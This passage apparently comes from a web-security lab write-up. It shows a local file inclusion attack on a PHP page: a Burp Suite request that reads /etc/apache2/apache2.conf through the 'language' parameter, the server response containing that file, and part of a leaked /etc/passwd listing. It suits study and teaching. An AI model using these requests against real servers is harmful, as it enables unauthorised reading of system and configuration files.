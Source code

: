 ```http
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false

</div>

[...]
```

`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /rlfi.php?language=/etc/apache2/apache2.conf&action=go📌 HTTP/1.1
Host: 192.137.251.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=c08ejkrfo3pmlhaidv5guqqki2; security_level=0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Fri, 29 Nov 2024 13:04:51 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 20441
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>

[...]

    </form>

    <br />
# This is the main Apache server configuration file.  It contains the
# configuration directives that give the server its instructions.
# See http://httpd.apache.org/docs/2.4/ for detailed information about
```